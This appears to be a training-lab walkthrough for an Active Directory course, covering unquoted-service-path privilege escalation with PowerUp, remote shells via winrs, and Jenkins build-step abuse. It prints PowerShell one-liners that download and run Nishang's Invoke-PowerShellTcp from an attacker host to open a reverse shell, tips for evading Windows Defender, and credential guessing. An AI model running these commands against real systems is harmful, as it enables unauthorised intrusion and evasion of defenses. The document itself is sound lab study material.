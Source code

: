 # 🆙 Elevate Privileges & gain a shell

Task&#x20;

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.&#x20;

• Identify a machine in the domain where studentx has local administrative access.&#x20;

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

***

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Explanation of the Situation

**Unquoted Service Path Vulnerability**

In Windows, services can be configured to run executables. When the path to the executable contains spaces and is not enclosed in quotes, it can lead to a security vulnerability known as an "unquoted service path". This vulnerability allows an attacker to place a malicious executable in a path that the service may inadvertently execute.

The command `Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose` is used to exploit this vulnerability. Here's a breakdown of what the command does:

* **Invoke-ServiceAbuse**: This is a PowerShell function from the PowerSploit framework, used to manipulate Windows services.
* **-Name 'AbyssWebServer'**: Specifies the name of the service to manipulate.
* **-UserName 'dcorp\student613'**: Specifies the user context under which the command will run. This user should have the necessary permissions to modify the service configuration or its executable path.
* **-Verbose**: Provides detailed output of the actions being performed for debugging or informational purposes.

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The command exploits an unquoted service path vulnerability in the following way:

* **Modifies the service path**: Changes the path to execute a system command instead of the service executable.
* **Executes a privileged action**: Runs the command to add a specified user to the Administrators group, elevating the user’s privileges.
* **Restores the service configuration**: Resets the service path to its original value to cover tracks and maintain normal operations.
* **Maintains the service state**: Ensures the service remains in its initial state (stopped) to avoid detection.

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

He's where we are in our enumeration according a guy on discord:

> you're local admin on the studentvm machine, then you use the Find-PSRemotingLocalAdminAccess to discover you have rights to connect to dcorp-adminsrv (via winrs or PSRemoting)

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

So we were able to get a shell on dcorp-adminsrv

&#x20;

<figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

***

Now let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>
